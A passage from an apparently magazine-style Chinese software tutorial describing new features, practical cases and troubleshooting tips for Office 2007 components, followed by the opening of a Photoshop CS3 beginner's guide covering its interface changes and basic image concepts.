单击开始按钮，从“准备”子菜单下可以找到一条名为“检查文档”的命令，这条命令可以检查文档中是否有隐藏的元数据或个人信息，执行后可以对文档进行多方面的检查。检查的内容包括批注、修订、版本、注释、文档属性和个人信息、自定义的XML数据、页眉、页脚和水印、隐藏文字等多方面的内容，检查完成后会弹出一个对话框，单击右侧的“全部删除”即可将相应的内容清除干净，如果重新检查的话，你会发现红色的感叹号已经消失了。

### 8. 快速返回

- Office 2007的“开始”标签页的工具栏中出现了许多过去被用户所忽略的功能按钮，例如Word 2007中的下标、上标、更改大小写、带圈字符、清除格式、拼音指南、字符加框等，这些按钮虽然在以前的版本中通过手工添加也可以使其出现在工具栏中，现在直接单击就可以使用，绝对是更为方便。
- 如果你的当前文档调整过多次格式，如果单击撤销按钮一步步返回，那么操作是非常繁琐的，现在你只需要单击工具栏上的“清除格式”按钮(位置在“拼音指南”的左侧)就可以快速返回默认格式。

### 9. 快速转换

如果在Office 2007中打开Office 97-2003创建的旧格式文档，虽然这里可以正常打开浏览并进行编辑，但却会在标题栏中显示“兼容模式”的字样，执行转换操作后可以让这个讨厌的兼容模式信息消失。

单击开始按钮，在这里执行“转换”命令，可以将当前文档转换为最新文件格式，一方面可以使用所有新功能，文件的大小也差不多减小了一半左右，当然“兼容模式”的字样也就消失不见了，而原来的文档也被自动升级为新格式的文档。

### 10. 图片库

图片库在应用程序重新设计的过程中，是一个非常核心的部分。当你在设计文档、工作表、演示文稿、Access数据库的过程中，图片库中内置了很多非常专业的参考资料供你选择，这些资料会以非常直观的方式显示出来，较之以往版本中那些复杂的对话框和选项要高效得多，同时也大大简化了创建专业文档的步骤。

### 11. SmartArt

借助全新的SmartArt图形和图表功能，我们可以在极短的时间内，创建出具有很强视觉冲击效果的文档、工作表和演示文稿，可以从预先定义的可视化图片库中直接选择图表的种类、格式和布局，包括列表、流程、循环、层次结构、关系、矩阵、棱锥图等类别，或者也可以通过增强的图形功能来设计出更加专业的图形效果，例如阴影、折射、透明、发光、3D等效果。

在新界面带来良好互动性的同时，如果你是新上手的用户，那么可能无法找到自己所需要的功能，你可能不得不花一段时间去学习适应。不过，我们必须承认，Microsoft Office 2007的界面是越来越漂亮了。

### 三、Office 2007主力组件的新特性——Word 2007

下面，我们以Word 2007、Excel 2007、PowerPoint 2007、Office Outlook 2007这四个主力组件为例，来介绍Office 2007的新特性。

作为Office 2007中应用最为广泛的组件之一，很多朋友几乎每天都要接触Word 2007，其中的新功能自然需要我们去熟悉和掌握。

### 1. 页面、字数一目了然

过去，我们往往需要从“工具”菜单上选择“字数统计”才能查看到文档的字数，即使将相关按钮添加到工具栏上，也是颇为麻烦。不过，Word 2007就简单多了，默认设置下窗口底部的状态栏上会自动显示出这些内容，包括页面、字数、拼写和语法检查等内容(见图2)。假如你还需要让状态栏显示更多的内容，或者需要适当去除某些并不需要的内容，只要右击状态栏进行设置即可，无需重启程序就可以立即生效。

其实，Office 2007的其他组件也会在状态栏上显示出相应的内容。

### 2. 博客发布

Word 2007 提供了直接发布博客日志的功能，这确实是一个相当实用的改进。我们可以从“开始”菜单下依次选择“新建→新建博客文章”，此时会要求选择博客的提供商，目前支持 Blogger、Windows Live Spaces 等类型，这里我们以 Windows Live Spaces 为例，选择之后需要输入用户名和密码进行验证。

如果输入的用户名和密码没有什么错误的话，那么很快就可以成功登录。博客日志发布成功后，Word 窗口中会有相关的提示信息，例如 “12:25:38 2006-9/17 发布到 *****”，如果此时登录你的博客站点，你也会看到即时更新的内容，感兴趣的朋友不妨一试。

### 3. 正版验证

如果你不太清楚自己的 Office 2007 是否属于正版，那么可以通过模板的下载来进行正版验证。进入 Word 2007 窗口，从开始菜单下打开新建文档的对话框，在 “Microsoft Office Online” 小节中任意选择一类在线模板，例如这里选择 “贺卡”，经过短暂的链接后很快就可以从庞大的 Microsoft Office Online 服务器中下载到各式贺卡，选定合适的贺卡后，我们可以在右侧窗格中看到这款贺卡的提供者、下载大小、打分（投票数），如果已经决定下载，那么请单击右下角的 “下载” 按钮。

现在你需要注意，下载模板时必须通过正版验证才能从 Microsoft Office Online 站点将其下载回来，而且每次下载模板都需要进行正版验证，如果没有通过验证的话将无法下载模板文件。

### 四、Office 2007主力组件的新特性——Excel 2007

Excel 2007 的行号、列号进行了极大的增强，如果你想试一试，可以按下 “Ctrl+ ↓” 组合键（这里不包括 “+” 号），然后会直接跳转到表格的末尾行，行号为 1048576，而以前的版本只有 65536 行；按下 “Ctrl+ →”（这里不包括 “+” 号）组合键，然后会跳转到表格的最右列，列号为 XFD，大约是 16000 列，而以前的版本只有 256 列。如此海量的工作表，相信很少人能够真正用上，也就是说一段时间内，我们应该是足够使用了。

### 1. 即时提示

Excel 2007 引入了 Windows Live Mail 和 Gmail 的记忆式输入功能，在创建公式时，当输入函数的第一个字母后，Excel 2007 会自动匹配并给出相应的屏幕提示（见图5），这样你就不用担心会出现函数错误的情况，对于经常编程的用户而言可以说是相当实用的。

### 2. 简繁互换

切换到 “审阅” 标签页，可以看到这里提供了翻译、简繁转换的功能，如果你需要与港台那边的朋友交换数据，那么简繁互换的功能可以说是相当的实用，转换之前会提示保存当前工作簿，因为此操作无法撤销，务必请另存至安全的位置，应当说还是相当出色的。

不过，奇怪的是，简繁互换的功能在 Word 2007 中却始终无法正常使用，不知道是何原因。

### 3. 删除重复项

现在，你不再需要通过复杂的公式来删除重复项，因为 Excel 2007 已经在 “数据” 标签页下提供了 “删除重复项” 的功能按钮，执行之前首先请选中目标区域，注意不能对多重选定区域使用，而且要求合并单元格具有相同的大小，执行后会弹出一个对话框，如果没有什么错误，确认后即可将重复项删除。

删除完成后，会弹出一个提示框，其中显示的信息有已删除的重复项、保留的唯一项，如果发现出现错误，可以通过撤消按钮进行还原。

### 4. 自动换行

过去，如果输入多行内容，我们必须在换行时手工按下 “Alt+Enter” 组合键才行，而现在则简单多了，首先仍旧按照正常的步骤输入数据，输入完毕后单击工具栏上的 “自动换行” 按钮即可。

### 5. 条件格式

Excel 2007 增加了功能更强大的条件性格式化功能（Rich conditional formatting），可以让我们轻松完成数据的可视化处理，除此之外还提供了对连接外部数据源的支持。

在 “条件格式” 下拉菜单中，我们可以发现新增加的 “图标集” 功能，在这里可以找到许多非常富有形象化的图标，例如三色交通灯、四色交通灯、四向箭头等，这样就可以将符合特定条件的单元格显示为不同的图标，较以前版本中的条件格式更为醒目（见图6）。

### 6. 标记较窄的列

对于某些窄的列，Excel 2007 提供了 “方向” 功能，可以通过旋转不同的角度实现，例如逆时针角度、顺时针角度、竖排文字、向上旋转文字、向下旋转文字等不同的格式，如此丰富的选项，可以确保不需要调整行列高度的情况下实现数据的正常显示。

## 五、Office 2007主力组件的新特性——PowerPoint 2007

事实上，PowerPoint的使用性丝毫不比Word和Excel差，学校里的老师做课件要用到它，企业的新产品发布会和年终总结要用到它，还有很多其他的场合也要用到它。

### 1.创建相册

在PowerPoint 2007的“插入”标签页下，我们可以找到一个名为“相册”的功能按钮，相信大多数朋友应该不会陌生，在下拉菜单中选择“新建相册”，此时会弹出一个名为“相册”的对话框，单击“文件/磁盘”按钮导入本地计算机或局域网中的图片，PowerPoint 2007支持的图片格式非常丰富，基本上所有主流格式的图片文件都可以在这里得到支持。

将指定的图片添加到相册列表中，如图7所示，在这里可以对列表框中的图片进行预览，还可以设置图片的亮度、黑白色、旋转角度，然后单击窗口右下角的“创建”按钮，很快就可以快速生成幻灯片进行展示，而不需要借助ACDSee等专业的图片管理工具，而且相册标题也会同时自动生成，这个功能可以说是相当的实用。



### 2.人人都可成为艺术字专家

过去，我们在设置艺术字的格式时，需要反复尝试后才可以实现比较完美的效果，现在这个工作则简单多了，PowerPoint 2007新增加的“艺术字样式”整合了文本填充、文本轮廓、文本效果等功能，你只需要在这里选择一下即可，而配合PowerPoint 2007的实时预览功能则更为方便。

例如，“文本效果”中提供了阴影、反射、发光、棱台、三维旋转、转换等六种不同的文本效果，每种效果下还分别有若干项目，光标移到某个项目上，会即时显示预览效果，如此美妙的效果在以前的版本中是很难实现的，现在即使是初次接触的用户也可以很快掌握。

### 3.切换效果

在幻灯片切换效果的设置方面，PowerPoint 2007新增加了图例展示列表的效果，这样在设置的时候相对更容易选择一些。

## 六、Office 2007主力组件的新特性——Office Outlook 2007

在Office 2007的组件中，Outlook 2007似乎永远是一个被人忽略的小弟弟，事实并非如此，姑且不论Outlook是许多外企的指定用邮件工具，人性化和安全性方面当然也远较Outlook Express、Foxmail方面要出色得多。

### 1.高度整合

Outlook 2007提供了一组新的经过改良的工具来帮助用户管理通信信息，包括电子邮件、即时消息、RSS订阅、SMS信息，所有这些工具都集中在了统一的区域中，以此来更好地帮助用户去定位、管理、区分、处理日常工作中可能面对的海量信息。

如图8所示，可以看到Outlook 2007的界面风格有了显著的变化，和以前的版本相比，右侧增加了一个日历窗格，从上至下依次是当前日期、近期约会、当天任务，所有事件一览无余，相信可以完成80%的秘书功能，这样的设计可以帮助用户更加合理地去管理信息和安排日程。你只需要简单地拖曳，就可以在短时间内完成添加工作，而且日程的显示方式也很讲究，你可以随意选择日、周、月等显示模式。



### 2.类别标色

现在，我们可以右击邮件，从快捷菜单的“分类”子菜单下选择某种颜色作为特定的标记，可以帮助用户更轻松地定位、管理、优先并响应电子邮件消息。

第一次使用时，Outlook 2007会询问是否需要对分类标记进行重命名，在这里还可以重置和设置快捷键。以后，如果快速查看所有标有分类标记的邮件，可以在邮件视图左侧的树形结构中选择“搜索文件夹→已分类邮件”，这样管理起来就方便多了。

### 3.预览附件

如果你接收到的邮件中包含Word、Excel、PowerPoint格式的附件，那么并不需要双击调用相关的Office组件，直接单击附件，你会发现意外的惊喜，因为Outlook 2007竟然可以直接预览附件的内容，可预览的文件类型包括Office文档、文本文件等。

当然，出于安全角度的考虑，在用户正式预览附件之前会弹出相关的警示信息，再次单击“预览文件”按钮，这时才能真正预览到内容，如果附件是PowerPoint文档，那么我们将能够预览每张幻灯片及其中的动画效果（见图9），感兴趣的朋友不妨一试。

作者: 蒋文彬



### 4.发送日历

在左侧的任务窗格中选择“日历”，然后选择“所有日历项目→通过电子邮件发送日历”，接下来会弹出新邮件窗口，在这里你可以选择需要发送哪个时间段的日历，默认的日期范围当然是“今天”，还可以从下拉列表框中选择明天、随后7天、随后30天，或者自行指定日历，收件人可以在邮件中单击日历中的日期，从而查看到日程安排，这个功能对于办公室人士尤为实用。

### 5.RSS订阅

在 Outlook 2007 中可以直接订阅 RSS 新闻，选中左侧任务窗格中“个人文件夹”下的 RSS 源，右击选择“添加新 RSS 源”，此时会弹出一个“新建 RSS 源”对话框，将 RSS 源的页面地址复制进去，确认后即可订阅，以后就可以像阅读邮件那样，非常方便地去阅读 RSS 新闻了。

## 七、典型案例

下面，我们通过三个典型案例说明 Office 2007 的功能应用。

### 案例一：在 Word 2007 中自动纠正语法错误

从严格意义上来说，Word 应该是属于舶来品，但 Word 提供的中文拼写和语法校对功能却一直非常好用，Word 2007 更是对这方面的功能作出进一步的改进。

默认设置下，Word 2007 会自动启用“拼写和语法检查”功能，用户在键入字词或编辑时得到实时的检查服务，在这里会看到以红色或绿色波浪下划线标出的错误之处，红色的波浪线表示拼写问题，绿色的波浪线表示语法问题，同时你会看到窗口底部的状态栏上的“拼写和语法检查”功能按钮显示出红色的“×”。

单击任务栏上的“拼写和语法检查”功能按钮，文档中的拼写或语法错误之处会显示一个右键菜单，你可以选择忽略或其他的处理方式，例如选择“语法”可以看到图 10 所示的对话框，这里除了显示更丰富的错误信息之外，我们可以在“”框中直接进行修正，单击“解释”按钮可以打开 Word 2007 的帮助文件查看更详细的信息，应当说这个功能还是相当实用的。

如果需要进一步的设置，可以打开“Word 选项→校对”窗口，这里可以设置是否在键入时检查拼写、键入时标记语法错误，单击“设置”按钮还可以设置语法和风格选项，建议朋友们可以根据自己的需要进行设置，在这里也可以重新进行检查。



标记语法错误，单击“设置”按钮还可以设置语法和风格选项，建议朋友们可以根据自己的需要进行设置，在这里也可以重新进行检查。

### 案例二：在 Excel 2007 中自动校核数据

在输入相关数据时，经常会由于各种原因误输入完全错误的数据，如果依靠人工校核，既不方便也容易遗漏，其实我们可以利用 Excel 2007 的“数据有效性”功能来快速查找无效的错误，例如我们要求在某份记分册中找出无效的成绩，这里限定该学科的成绩在 0 ～ 150 分之间，超出此范围的成绩当然是无效的。

首先选定工作表中的相关区域，然后从“数据”标签页下打开“数据有效性”对话框进行设置，确认关闭对话框，然后就可以在“数据有效性”下拉菜单中选择“圈释无效数据”，执行后即可看到图 11 所示的红色椭圆，这样那些无效的数据看起来就一目了然了。



如果你需要删除工作表中的重复记录，一般是使用高级筛选，但 Excel 2007 提供了一个实用的“删除重复项”的功能，执行后可以快速删除当前工作表中的重复行或重复列，工作表中符合要求的重复记录会被全部删除，当然第一个记录仍然会保存下来。

### 案例三：在 PowerPoint 2007 中插入 Flash

相信很多朋友都会使用 PowerPoint 制作演示文稿，但是即使你已经用上了最新的 2007 版本软件，可能还是会遭遇如何插入 Flash 的问题。我们都知道，如果需要将 Flash 插入演示文稿，直接插入是不行的，必须通过“控件”才能将 Flash 嵌入 PowerPoint 文档，但现在默认的界面中连“控件”的位置都根本找不到，又该如何插入 Flash 对象呢？

- ①激活“开发工具”选项卡
单击左上角的“Microsoft Office 按钮”，然后单击“PowerPoint 选项”，切换到“常用”选项卡，在这里勾选“在功能区显示‘开发工具’选项卡”复选框，最后单击右下角的“确定”按钮即可生效。现在我们就可以发现PowerPoint 2007的主界面最右侧增加了一个“开发工具”选项卡，而“控件”也赫然在目。

- ②绘制控件框
单击右下角的按钮打开“其他控件”对话框，拖曳右侧的滚动条，可以在控件列表中找到“Shockwave Flash Object”控件，选中后单击“确定”按钮，接下来在当前幻灯片上拖曳鼠标以绘制控件框，通过拖曳尺寸控点可以调整控件框的大小。

- ③插入Flash
右键单击“Shockwave Flash Object”，从快捷菜单中选择“属性”打开图12所示的对话框，在“按字母序”选项卡中选择“Movie”，在右侧的空白单元格中键入待嵌入的Flash文件的完整路径(绝对路径)，或者键入相应的URL地址也可以。



接下来，当然还可以设置如何播放这个Flash动画的相关选项，例如将“Playing”属性设置为“True”，可以在显示幻灯片时自动播放Flash；将“Loop”属性设置为“False”，可以禁止重复播放Flash；将“EmbedMovie”属性设置为“True”，可以与他人共享这份演示文稿，设置完成后可以直接关闭这个对话框。

## 案例四：用Word 2007发出符合标准的帖子

对于喜爱泡论坛的朋友来说，发帖、回帖自然是家常便饭，一般情况下直接操作即可，但对于篇幅比较长的帖子，虽然提交时论坛系统都会自动分段，但如果文章中混杂了中文和英文，那么可能内容会被搞得面目全非。其实，我们可以借助Word 2007进行适当的梳理，这样就可以保证发布的帖子符合论坛的规范。

- ①准备内容
首先将准备提交的帖子内容复制到剪贴板中，然后打开Word 2007的文档窗口，将剪贴板中的内容粘贴过来，不需要使用“选择性粘贴”，因为这样可能会丢失相应的格式。

- ②页面设置
切换到“页面布局”选项卡，打开“页面设置→文档网格”选项卡，在“网格”小节中选中“指定行和字符网格”，这样我们才可以在下面的“字符数”中指定每行的字符数，默认是“39”，请根据实际情况而定，注意最高不能超过43个字符(见图13)，单击“确定”按钮使其生效。


- ③另存文本
打开“另存为”对话框，在保存类型下拉列表中选择“纯文本”，确认后会打开一个文件转换对话框，在这里请选择“插入换行符”，确认后即可按照你的要求保存文档。

完成上述工作后，你就可以将刚刚设置完成的内容复制后粘贴到论坛的提交页面，直接发布即可。

## 八、解决难题的方法

毕竟是全新的办公软件，在使用Office 2007的过程中，我们难免会遇到这样或那样的问题，那么下面的内容也许会对朋友们有所帮助：

- 1.Office 2003也支持“x”
我们知道，Office 2007的文档格式都增加了一个“x”的后缀，例如*.docx、*.xlsx、*.pptx，这样就带来一个问题，Office 2007虽然可以正常打开并编辑以前版本的文档，但Office 2003却并不能对“x”提供支持，即使选择“所有文件”并选择“Windows编码”强行打开，我们所看到的也只是大堆乱码而已，很显然这样就会带来很多的问题。

当然，微软并没有忽略这一问题，官方网站在日前提供了一个名为O2007Cnv.exe的转换程序，这个兼容包可以让Office 2000/XP/2003正常打开、创建、编辑那些带“x”的文档，更令人惊喜的是还可以保存为Office 2007的文档格式，包括对Word、Excel、PowerPoint等三大组件的支持，下载地址为http://www.microsoft.com/office/preview/beta/converter.mspx，安装后就可以实现对“x”后缀文档的支持。

- 2.找回PDF/XPS输出功能
使用过测试版本的用户应该还记得当初微软是在Office 2007 Beta 1/Beta2中提供输出为PDF/XPS文档的功能，但后来由于Adobe公司的抗议，这个功能在Office 2007的后续版本中被取消。不过，微软的官方网站提供了相关的支持插件，访问http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=4d951911-3e7e-4ae6-b059-a2e79ed87041，将Microsoft Save as PDF或XPS加载项下载回来，然后可以在八种2007 Microsoft Office程序中导出文件并将其保存为PDF和XPS格式，还可以用来发送PDF和XPS格式的电子邮件呢。

- 3.插入“页码”不犯愁
如果你试图在Office 2007插入页码，你会惊奇这里的相关选项竟然都是灰色的，也就是说根本无法使用页码功能，即使打开事先已经在Office 2003插入了页码的文档，也仍然无法进行编辑。

解决这个问题，我们需要手工加载“构建基块”模板才行。打开“Word选项→加载项”窗口，在“管理”下拉列表框中选择“模板”，然后单击右侧的“转到”按钮，单击“添加”按钮，找到C:\Program Files\Microsoft Office\OFFICE12\Document Parts\2052\Building Blocks.dotx，勾选“Building Blocks.dotx”，加载后会出现在“共用模板与加载项”的列表框中，确认后关闭退出。

现在，我们就可以在文档的相应位置任意插入各种不同风格的页码，而插入页码时可以事先预览到相应的页码格式（见图14）。



- 4.找回 “修订” 功能
由于 Office 2007 的用户界面较之前的版本发生了重大变化，因此很多我们以前司空见惯的东西可能一下子还不大容易找到，当然这些功能并非消失或被去除，关键是如何将其找出来。例如审阅文稿时非常实用的“修订”图标，过去可以使用的“Ctrl+Shift+E”组合键激活修订功能的方法，在 Word 2007 中已经无法使用，激活修订功能的方法如下：

  - ①启用修订
右击任务栏，从快捷菜单中选择“修订”，此时任务栏中会出现“修订”的图标，但默认状态是“Off”，单击此图标重置修订状态为“On”，此后你无论是添加或是删除字符，Word 2007 都会以醒目的红色进行提示，添加的字符会增加一条下划线，删除的字符还会增加一条中划线。

  - ②激活审阅窗格
如果仅仅只是显示红色的下划线或中划线，你可能还是觉得不是很清晰，因此我们可以激活审阅窗格，这样看起来就直观多了。
切换到“审阅”标签页，在“审阅窗格”下拉菜单中选择垂直窗格或水平窗格，前者显示在页面的左侧，后者是显示在页面的下方，如图15所示，在这里可以清楚地了解到当前文档进行的所有修订，包括插入、删除、移动、格式、批注等操作。



  - ③处理修订
对于他人作出的修订，我们可以选择“接受”或“拒绝”，既可以针对其中的某一条进行处理，也可以针对所有修订进行处理，如果希望将这些修订打印出来仔细校对，可以调出“打印”对话框，在这里将“打印内容”设置为“显示标记的文档”，即可将包含修订、批注在内的文档完整打印出来。

当然，如果你只希望打印出修订、批注，那么请将打印内容设置为“标记列表”。

- 5.Vista下预览Office文档
如果你已经用上了 Vista，而且又在 Vista 下安装了 Office 2007，那么只需要进行简单的设置，然后就可以在资源管理器下直接预览 Word、Excel、PowerPoint 格式的文档，而不再需要事先调用相关的组件。
默认设置下，Vista 并未自动激活预览窗格，而只是启用了详细信息面板、导航面板，请右击打开“布局”下拉菜单，在这里单击激活“预览窗格”，选定需要预览的 Office 文档，然后就可以在右侧的阅读窗格中查看到该文档的内容，如图16所示，应当说看起来还是比较直观和清晰的，这里还会出现两个滚动条，如果文档比较长的话可以进行拖曳浏览。



- 6.实现自动安装
Office 2007 提供了强大的自定义工具，可以实现无人值守安装。进入命令提示符环境，通过 DOS 命令层层前进到达 Office 2007 的安装文件夹，输入“setup /admin”命令，确认后会打开一个清雅简洁的“Office 自定义工具”对话框。
选择新建自定义文件，如图 17 所示，由于是全中文的界面，因此操作起来并不复杂，你可以对安装、功能、其他内容、Outlook 等四个部分进行定制，例如指定默认的安装路径、单位名称、自动输入产品密钥，还可以手工指定默认安装的组件、配置快捷方式，设置完成后可以将当前安装配置保存为一个 MSP 格式的自定义文件，以后可以使用“setup /adminfile ***.msp”命令自动安装 Office 2007。



当然，作为下一代的办公软件，Office 2007 的功能可以说是超级强大，本文只是介绍了其中很少的内容，朋友们还是需要自己去探索、去发现更多的功能和技巧的。

## 全新登场：
## Photoshop CS3简明教程

文 / 彭文波

如今，Adobe公司的CS3系列软件一直是网友们津津乐道的一个话题。每一款最新的系列软件推出时，都会引来用户热评如潮，Photoshop自然也在其中了。它是Adobe公司推出的一款优秀平面设计软件，强大的设计功能和便捷的操作使用，使它获得了不少用户的青睐。无论是家庭用户编辑照片，还是平面设计师制作广告，Photoshop都是其中不可或缺的优秀设计工具。现在，它的许多设计规范已经成为许多涉及图像处理的行业的标准。2006年12月15日，Adobe公司在官方网站提供了Photoshop CS3测试版，在评测的过程中，“CS3”系列概念正带来一场前所未有的设计风暴。

相对于以前版本，Photoshop CS3的变化更显著。从焕然一新的操作界面，创新的折叠式工具栏，到灵活的伸缩式面板以及实用的快速选择工具，都可以让用户更加得心应手。另外，Photoshop CS3在图案工具、Adobe Bridge、对话框功能等方面也有了许多明显的改进，用户还可以直接使用网页Banner尺寸、手机屏幕尺寸等。这一切都让用户对Photoshop CS3充满了期待。为了满足用户的需要，本教程将结合这些新功能，通过详尽的文字描述和图片说明，使用户轻松上手，迅速成为Photoshop设计高手。



此外，工作面板更加缩放自如。在界面的右边可以看到一个黑灰色的底板，上面有不同的面板选项。通过对这些面板进行调整，可以优化组合成适合自己的界面。如果不需要把面板放在左边，也可以直接把面板拖拽出来成为浮动面板。如果觉得目前的工作区域比较小，可以单击右边底板上方的黑灰色区域对面板进行缩放。对于设置好的个性化的工作界面，还可以将其保存下来。

## 一、新体验：Photoshop CS3的新变化

Photoshop CS3的安装非常简单，直接按照提示，点击“下一步”按钮即可完成安装。下面，结合英文帮助文档的说明、广大平面设计者的反馈以及针对软件的测试，讲解Photoshop CS3的新功能和新变化。

### 1.全新的用户界面和工作面板

每个新版本软件发布时，总会在软件界面上进行一番改进，这一界面变化也会出现在所有的CS3系列产品中，Photoshop CS3也不例外。与旧版本相比，Photoshop CS3的变化非常明显。进入软件界面后，会有一种很现代而清爽的感觉。在界面的左边是一个更长的单排工具栏，整个工作区域也更加开阔。如果希望切换到旧版的双排工具栏，只要单击工具栏上方的双箭头按钮即可。按住左侧工具栏中的最后一个按钮，还可以进行四种显示模式的切换，分别是：标准屏幕模式；最大化屏幕模式；带工具栏的全屏模式；全屏模式等，如图1所示。

### 2.增强的范围选择功能

在选择功能上，Photoshop的每个新版本都有相应的改进，而Photoshop CS3这个版本的改进更加明显。

首先，改进后的快速选择工具更加好用，其使用方法是基于画笔模式的。也就是说，只需要对快速选择工具设置基本参数，用户可以“画”出所需的选区。如果需要选择离边缘比较远的较大区域，可以使用直径相对比较大的画笔；如果需要选择边缘，则换成小尺寸的画笔，这样才能尽量避免选取背景像素；如果想对某些包含在选区中的特定区域进行处理，按住Alt键再用快速选择工具去“画”一下就可以了。

其次，还可以优化边缘调板，对选区边缘的效果进行控制。

更值得一提的是，在使用任意选择工具时，还可以单击选项栏上的“Refine Edge（优化边缘）”按钮，对选区的边缘进行更加细微的调整。

### 3.更体贴的曲线调整对话框

Photoshop的曲线功能十分强大，而Photoshop CS3则锦上添花，在曲线对话框里添加了一些选项，使得曲线调整# 超级软件教程

功能更加灵活。选择“图像”→“调整”→“曲线”命令，即可看到“曲线”对话框，如图2所示。在其下方有一个曲线显示选项，在这里可以设置显示的各种选项，包括柱状图等。



在新曲线面板的格子部分，软件内置了色阶的显示，使调色更具参考性。拖动“输入”处的小三角，可以分别对暗部和亮部进行调整，也可以直接用鼠标调整曲线。在通道的RGB模式下，红、绿、蓝三种颜色的曲线都会同时出现在线框里，这个新增功能提供了更加方便快捷的可视化操作。

### 4. 黑白照片转换控制

以前，进行照片的黑白转换时，可能需要手动进行。Photoshop CS3新增了黑白效果转换功能，不仅增加了预设效果，而且还可以当作调整图层来使用。单击“图像”→“调整”菜单，可以看到多出了一项“Black & White”（黑&白）命令。除了可以将照片从彩色转换为黑白，这里还提供了许多预设功能。当对话框处于打开状态时，可以在照片上单击并拖动，这时对话框中的滑块就会随之变化。同时，在对话框下方区域还提供了内置的色相与饱和度调整滑块，如图3所示。



界面有六个色彩控制，除了主要的RGB色彩之外，还有Yellow（黄色），Cyans（青色），Magentas（洋红）三个次级色彩。这样，可以对不同色彩区域实现更加精确的控制。按下右边的Auto（自动）键，还可以根据图片进行不同色彩通道的明度适配，对于初学者十分适用。

在Photoshop CS3中，新增了一个“Clone Source”（克隆源）面板，这是对图章等工具的补充，也使得克隆过程更加清晰可见。在进行克隆与修补工作时，控制起来更加灵活方便，针对克隆对象的管理也更加自如。这个面板中提供了偏移（Offset）的X、Y坐标显示与控制，宽度和高度显示与控制，以及是否显示叠加，并能够调整叠加的不透明度、混合模式，以及是否自动隐藏和反相等，如图4所示。



### 5. 更有特色的克隆面板

### 6. 图层的自动对齐与自动混合

在平时处理相片的过程中，用户可能只需要其中的某个固定背景，其他的干扰部分则可能是多余的。为了获取这个固定背景，可能需要花费很大的工作量。现在，Photoshop CS3测试版中增加了两个很实用的命令，即自动对齐图层与自动混合图层。通过对大量的照片进行分析，它可以判断哪些东西是恒定的，例如在所有图像中出现的建筑物、大树、人行道，哪些部分在某张图片中有些晦暗，然后可以从其它的图像中借来一些象素将其恢复，并建立一个高级合成图，这样大大减少了工作量。另外，还有一个滚动条用来处理其中的模糊部分。

### 7. 灵活方便的智能滤镜

现在，对软件的智能化要求越来越高，对于创意要求比较高的设计工作尤其如此。在Photoshop CS3中，智能滤镜给用户带来了很大方便，将某个图层转换为智能对象后即可对其应用各种滤镜。如果觉得某滤镜不合适，可以暂时关闭或者退回到应用滤镜前的初始状态。这样，用户不必多次存储“半成品”文件。使用智能滤镜后，不管用户对图层添加了哪种过滤器或效果，所调节的参数都是可储存、可移动、可复制粘贴，而且是可调节的。如果用户想对某个滤镜的参数进行修改，可以直接双击图层面板中的该滤镜，打开滤镜对话框。单击图层面板滤镜左侧的眼睛图标，则可以关闭滤镜的预览效果。在某个滤镜上单击右键，还可以进行编辑滤镜、关闭滤镜、删除滤镜等操作。取消“波纹”滤镜的效果如图5所示。



## 8. 功能强大的Adobe Bridge浏览器

Adobe Bridge文件浏览器是一个能够单独运行的完全独立的应用程序，并且成为了CS3新套装中的一分子，新版的Bridge也有了很大变化。单击“文件”→“浏览”选项，可以看到文件浏览功能也有了一些新的变化。软件内置了一个放大镜，如果想仔细查看某幅图片的某个区域，可以使用鼠标滚轮增大或减小放大的倍率，最大能放大到8倍之多。不仅如此，当移动到边缘时，放大镜还可以自动旋转。在界面上，所有的功能都被整合在一组组的面板里。同时，软件还提供了方便的照片比较功能。

此外，软件在打印预览、亮度和对比等功能上也更加简洁而实用，尤其在细节处理上更加方便实用。在下面的具体介绍中我们还将进行有针对性的介绍。

# 二、快速上手篇 Photoshop基础知识及常用工具

熟练掌握 Photoshop 基本工具的使用方法，对于设计工作具有十分重要的基础性意义。在 Photoshop CS3 中，融入了大量的专业设计术语和色彩概念。使用之前，必须了解其中的几个基本概念。

## 1. 图像处理基础知识

下面，结合最新的 Photoshop CS3，讲解其中的基本概念。

- （1）像素
在 Photoshop 中，像素（Pixel）是一个小的方形的颜色块，它是组成图像的基本单元。图像通常由被排成横行或纵列的许多像素组成。当图像被放到足够大时，就可以看到图像中出现类似马赛克的颜色块，每个颜色块就是一个像素，也可称之为栅格。

- （2）图像分辨率
分辨率是指每英寸图像包含的像素数目，通常每平方英寸的面积上所含的像素点越多，图像就越清晰，文件也越大。反之图像就越模糊，图像文件也越小。图像分辨率可以形象地理解为在水平或垂直方向上，单位长度内的一条线由多少个像素去描述，描述这条线所用像素越多、分辨率就会越高。其单位是 ppi。如果图像分辨率是 300ppi，就表示在每英寸长度内包含 300 个像素。图像分辨率和图像大小之间关系密切。图像分辨率越高，所包含的像素越多，图像的信息量越大，因而文件也就越大，反之文件就越小。Photoshop 默认分辨率为 72 像素/英寸，可以满足普通显示器的分辨率。发布于网页上的图像分辨率通常可以设置为 72 像素/英寸或 96 像素/英寸。

- （3）位图和矢量图
计算机中的图形图像包括位图图像和矢量图图像两种。
位图也称像素图，其特点是能够制作出色彩和色调变化层次丰富的图像，能逼真地表现出自然界的真实景象。位图由被排成横行或纵列的许多颜色块组成，高分辨率的位图能够提供生成照片的图像物性，表现生动的物体质感和丰富的光影效果。当位图放大到一定倍数后，图像的显示效果就会变得越来越不清晰，从而出现类似马赛克的效果。
矢量图是由一些由数学方式描述的曲线组成，其基本组成单元是锚点和路径。因此，它不能像位图那样表现出丰富的图像颜色，适合于以线条为主的图案和文字标志设计、工艺美术设计和计算机辅助设计等领域。矢量图无论放大缩小多少，都具有平滑的边缘，可随时缩放，而效果同样清晰。

小技巧：在计算机中，矢量图和位图之间是可以相互转换的，用 Photoshop CS3 制作的位图作品同样可以导入到 CorelDRAW 等矢量图软件中进行编辑。

### （4）颜色模型和颜色模式

颜色模式决定用于显示和打印图像的颜色模型，也就是说，颜色模型是用于表现颜色的一种数学算法。Photoshop 的颜色模式以用于描述和重现色彩的颜色模型为基础。

- 常见的颜色模型包括：HSB（H：色相、S：饱和度、B：亮度），RGB（R：红色、G：绿色、B：蓝色），CMYK（C：青色、M：洋红色、Y：黄色、K：黑色）和 CIEL*a*b*。
- 常见的颜色模式包括：位图（Bitmap）模式、灰度（Grayscale）模式、双色调（Doutone）模式、RGB 模式、CMYK 模式、Lab 模式、索引颜色（Index Color）模式、多通道（Multichannel）模式、8 位/通道模式和 16 位/通道模式。在 Photoshop CS3 中，打开“颜色”面板，单击右边的小三角按钮，在弹出的菜单中即可看到相关的颜色模式，如图 6 所示。



